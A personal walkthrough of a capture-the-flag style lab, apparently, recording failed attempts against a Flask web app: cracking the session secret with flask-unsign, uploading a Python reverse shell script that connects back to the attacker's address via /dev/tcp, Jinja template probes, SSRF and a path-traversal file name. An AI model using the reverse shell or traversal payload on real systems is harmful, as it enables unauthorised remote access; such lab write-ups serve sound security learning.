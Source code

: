 No active vulns for that server version
Ah, if we had the secret key, we could just forge the cookies . It could be simple as that.

If the SECRET_KEY is weak, flask‑unsign can crack it out . Once you can crack it , you can sign sessions, you can make the app believe anything and become whoever you like.

No signs of bruteforcing the SECRET KEY . Throwing errors when decoding . Why ?? Maybe some 

Finally after lot of head banging , i figured out  why the error was . 
The keys from the wordlist like numbers 1234 as treated as int and not string . Thats why this error
And we used this command arg --no-literal-eval to avoid this error

And this is final dead . I cant crack cookie , no secret key . Without secret key, you cant think of session hijacking or cookie forging without SECRET_KEY. Lets see file upload vulnerabilities for reverse shell

I've created a python script to get RCE called rce.py . Lets upload it with Burp and see
```python3
import os
os.system("sh -i >& /dev/tcp/10.10.14.12/8888 0>&1")  
```

Uploading it from burp with `.py` extension didn't work . Now I've changed `.py` to `.jpg` . Lets upload it now .

Yeah now it works . Uploading it by changing extension WORKS

Okay this also didn't work , says error when navigating . Clearly changing extensions also are not working.

Lets check for python version vulns if there are any . I didn't give a thought for this. Maybe there could be a vuln in this python version. Lets google it

Okay after googling , there is no blog or site which provides hope for python version vuln

And since this is flask, Flask uses Jinja . Could be worth checking if the templates handle input safely.

Tried the Jinja probe in Burp . No luck. Either my assumption's wrong or the server's not vulnerable.

Looking for more on Flask , any ways to exploit it . 

There's a blog says Flask can do SSRF . I'll start a python listener and watch if the app decides to talk back.

Nope this doesn't work at all. I want to check again if there are any file upload vulnerabilities for this python or flask server version. GOOGLE Again

I still haven't tried UDP . Lets do UDP scan since we are not getting any leads. Maybe an UDP scan works . Lets rustscan it 

Nope nothing here too

And I've got an idea to change file name to this `./../../../../../../../../../../../../../etc/Batman.jpg` while uploading image via Burp and try LFI one last time.

But the URL it generated for download is 
` http://10.10.11.88:8000/uploads/f7f9490a-ea98-4459-b76a-7fd178df087c_etc_Batman.jpg`
